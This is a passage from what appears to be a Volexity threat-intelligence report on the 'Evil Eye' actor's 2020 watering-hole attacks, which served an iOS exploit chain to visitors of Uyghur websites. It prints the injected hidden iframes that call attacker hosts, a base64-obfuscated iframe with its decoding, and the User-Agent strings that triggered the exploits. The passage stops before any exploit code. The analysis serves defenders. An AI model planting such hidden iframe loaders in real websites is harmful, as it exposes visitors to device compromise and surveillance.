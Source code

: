 Volexity observed multiple different attacks where this implant was being installed on iOS devices. This includes six different exploit websites; five instances of the malware implant; three different C2 IP and port pair combination; and two unique C2 IP addresses. Each of the observed exploit sites and malware C2 servers are detailed in Appendix A below.
Targeting Website Visitors
The Evil Eye actor set up IRONSQUIRREL code to be loaded in a variety of different ways through malicious iframes across the various compromised websites. Volexity observed a total of six different hostnames being used to launch attacks between January and March 2020.
 While the first round of attacks were identified across several websites, future attacks were only observed in conjunction with the Uyghur Academy website. The attacks were largely loaded in fairly standard ways, such as via an iframe on a website's index, a modified JavaScript file used by the website, or nested iframes—which was the case on the Uyghur Academy website. The code below has been on the main index of the Uyghur Academy website for several months. The "JPlayer.html" file appears to be exclusively used by the Evil Eye actor when they want to launch attacks against visitors to the website. Otherwise, the file is either deleted or emptied out when not in use.
<iframe src="https://akademiye[.]org/ug/wp-content/themes/goodnews/js/Jplayer.html" width="0" height="0"></iframe>
In the first observed example of this iOS exploit actvity, the following code was observed inside Jplayer.html.
<iframe src="https://cdn.doublesclick[.]me/index.html" width=0 height=0></iframe>
The most notable method of loading the code was via an iframe that was observed on the Chinese-language version of the Uighur Times website. The following code was observed.
<divstyle="display: none">
<iframe src="data:text/html;base64,PGh0bWw+PGhlYWQ+PGJvZHk+PGlmcmFtZSBzcmM9Imh0dHBzOi8vY2RuLmRvdWJsZXNjbGljay5tZS9pbmRleC5odG1sIj48L2lmcmFtZT48L2JvZHk+PC9oZWFkPjwvaHRtbD4=">
</iframe>
</div>
Here, the entire iframe has been obfuscated by using base64 encoding, which is a common method to embed images in the source of websites. However, it is far less common to see an iframe load content from a remote website; this may be used as an indicator of suspect activity. The base64 content in this iframe decodes as follows:
<html><head><body><iframe src="https://cdn.doublesclick[.]me/index.html"></iframe></body></head></html>
Targeting Website Visitors
The index.html file hosted on cdn.doublesclick[.]me would kick off the first step in potential targeting against the user. The response returned by the server would depend on the User-Agent of the visitor making the request. An exploit chain would be kicked off if the right User-Agent string was detected; otherwise, the server would simply respond with the text "ok".
As an example, the following User-Agent strings would result in the exploit chain being launched.
Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 EdgiOS/44.5.0.10 Mobile/15E148 Safari/604.1
Mozilla/5.0 (iPad; 12_3_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0 EdgiOS/44.5.2 Mobile/15E148 Safari/605.1.15CPU OS 1
Note that exploit can be triggered through any browser on the phone, as they all use WebKit. Volexity was able to confirm successful explotiation of a phone running 12.3.1 via the Apple Safari, Google Chrome, and Microsoft Edge mobile browsers. If a visiting device passes the first checks put in place by Evil Eye, code similar to the following would be returned:
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html;charset=utf-8" http-equiv="Content-Type">
<meta content="utf-8" http-equiv="encoding">
 
